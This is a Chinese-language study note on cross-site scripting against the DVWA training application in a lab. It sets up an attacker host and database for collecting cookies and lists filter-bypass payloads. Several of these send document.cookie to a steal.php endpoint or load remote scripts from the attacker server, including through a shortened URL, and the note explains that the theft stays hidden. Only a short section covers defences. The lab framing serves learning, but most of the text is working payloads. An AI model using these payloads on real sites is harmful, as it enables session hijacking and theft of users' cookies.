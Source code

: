 ## dvwa学习xss

### 测试环境

win7虚拟机 ，ip 192.168.255.151，用phpstudy将dvwa 环境 搭在 8081端口

一台物理机，ip 192.168.1.101,作为我的vps，用于获取xss返回的cookie,用phpstudy搭建的环境，808端口存有 cookie.js，steal.php等文件

火狐浏览器，谷歌浏览器有 xss filter

搭建数据库sql：

```

	create database dvwacookie;
	
	use dvwacookie;
	
	create table low(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table medium(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table high(id int not null auto_increment primary key,cookie varchar(100) not null);

```


### 参考资料

[新手科普 通过DVWA学习XSS](https://www.freebuf.com/articles/web/157953.html)

[针对不同标签的xss利用汇总](https://www.cnblogs.com/xiaozi/p/5588099.html)

[xssbypass](https://d3adend.org/xss/ghettoBypass)

[xss变形](https://www.jb51.net/tools/xss.htm)


### xss介绍

WEB前端中最常见的两种安全风险，XSS与CSRF，XSS，即跨站脚本攻击、CSRF即跨站请求伪造,两者属于跨域安全攻击。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

xss分为 存储型，反射型，dom型。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

存储型xss 通过留言板等输入框注入的脚本存在于靶机服务器的数据库中

反射性xss 利用脚本与服务器交互，绕过限制

DOM型的XSS是不需要与服务器交互的，它只发生在客户端处理数据阶段。

简单理解DOM XSS就是出现在javascript代码中的xss漏洞。

DOM型XSS是前端代码中存在了漏洞，而反射型和存储型是后端代码中存在了漏洞。

反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，在dom xss中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

### xss危害

获取到用户的cookie信息或者劫持用户跳转到钓鱼网站
 

### 专用扫描工具

XSSER,XSSF等

工具扫描效率高存在误报，不如手动扫描准确。

### xss利用


#### 注入方式

1双写绕过

2大小写混淆绕过

3虽然无法使用```<script>```标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```

	<iframe src=1 onload='alert(1)' /><iframe>

	<iframe src=1 onmouseover=alert('xss') y=2016 /><iframe>
	
	<iframe src="../csrf" onload='alert(frames[0].document.getElementsByName("user_token")[0].value)'>

	<img src=1 onerror=alert(/xss/)>

	<body onload='alert(/xss/)'</body>

	<svg onload=alert("xss")>
	
```

4 dom xss 注入

4.1 标签闭合  （会破坏页面结构，隐蔽性不如注释方法）

```></option></select><img src=1 onerror=alert('hack')>```

```</option></select><svg onload=alert("xss")>```
 
4.2  注释

``` #<script src=http://192.168.1.101:808/b.js></script>``` 
\#会注释掉，后面的内容不会发送到后台

5. 存储型和反射型xss

为了绕过  '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i'  正则，

可将插入代码中的i进行html字符实体编码以绕过正则

```<img src=# onerror=(locat&#x69;on.href="http://192.168.1.101:8081/steal.php?data="+document.cookie)>```

直接跳转到steal.php

[**html字符 转换 字符实体在线编码**](https://www.qqxiuzi.cn/bianma/zifushiti.php)

在python 中解码函数 print (html.unescape('&#20013;&#22269;'))


js操作ajax(注入字符过多，不推荐)

```
	<img src=# onerror='var url="http://192.168.1.101:808/steal.php";var postStr="data="+document.cook&#x69;e;var ajax=null;&#x69;f(w&#x69;ndow.XMLHttpRequest){ajax=new XMLHttpRequest();}else &#x69;f(w&#x69;ndow.Act&#x69;veXObject){ajax=new Act&#x69;veXObject("M&#x69;crosoft.XMLHTTP");}else{ajax=null;}ajax.open("POST",url,true);ajax.setRequestHeader("Content-Type", "appl&#x69;cat&#x69;on/x-www-form-urlencoded");ajax.send(postStr);'>
```

jq操作ajax(注入字符过多，不推荐)(这里使用短链接会异常，应该是浏览器解析dom的问题)

```
	<img src=# onerror="var a=document.createElement('scr&#x69;pt');a.setAttr&#x69;bute('src', 'https://dwz.cn/tA0Ob030');document.getElementsByTagName('head')[0].appendCh&#x69;ld(a);var b= document.createElement('scr&#x69;pt'); b.setAttr&#x69;bute('src','http://192.168.1.101:808/c.js');document.getElementsByTagName('head')[0].appendChild(b);">
```

```ALTER TABLE guestbook MODIFY name VARCHAR(180);```

js操作原生态ajax,不用引用jquery，最节省代码,171字符

```	
	<img src=# onerror="var b= document.createElement('scr&#x69;pt');
	b.setAttribute('src','http://192.168.1.101:808/b.js');
	document.getElementsByTagName('head')[0].appendChild(b);">
```

6.限制输入字符长度的浏览器注入方法

chrome: F12 ，Elements , 选定元素，Edit as HTML

firefox:F12 ，inspector/查看器，编辑html， 修改 maxlength

7.记录cookie

```<img src=# onerror=(location.href="http://192.168.1.101:808/steal.php?data="+document.cookie)>
```

这种方式有个缺点就是将cookie发送到steal.php后他会刷新页面跳转到steal.php，所以要用ajax优化

在有xss漏洞的位置插入:


```<script src=http://192.168.1.101:808/cookie.js></script>```

相当于构造链接:

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/xss_r/?name=<script src=http://192.168.1.101:808/cookie.js></script>```

也可以用jquery操作ajax，但是需要引入头文件例如 ```https://cdn.bootcss.com/jquery/1.10.2/jquery.min.js```

[**百度短网址**](https://dwz.cn/)

```<script src=https://dwz.cn/tA0Ob030></script><script src=http://192.168.1.101:808/c.js></script>```   成功跨域获取cookie,压缩到刚好100字节(还可以服务器使用80端口继续压缩字节)

**将链接发给该网站下的受害者，受害者点击时就会加载远程服务器（vps）上的cookie.js脚本，这里要提一点，用src加载远程服务器的js脚本，那么js的源就会变成加载它的域，从而可以读取该域的数据。这时，vps的数据库就接收到了cookie。**

观察firebug的javascript控制台，看到已拦截跨源请求：同源策略禁止读取位于 http://192.168.1.101:808/steal.php 的远程资源。（原因：CORS 头缺少 'Access-Control-Allow-Origin'）

因为ajax严格遵从同源策略，当前加载cookie.js的域为http://192.168.255.151:8081,所以ajax不能读取不同域http://192.168.1.101下的数据，但是cookie已经被发送到了http://192.168.1.101域，steal.php已经将偷取到的cookie存放在了数据库中,而且页面没有刷新，很隐蔽。

8.js ，jq操作 ajax对比



### xss反制

htmlspecialchars 把预定义的字符&、”、 ’、<、>转换为 HTML 实体，防止浏览器将其作为HTML元素。转义可能引起跨站漏洞的标签

http层做到防护，给cookie设置httponly属性，使cookie不能被javascript读取，才能有效防止用户cookie被盗用的问题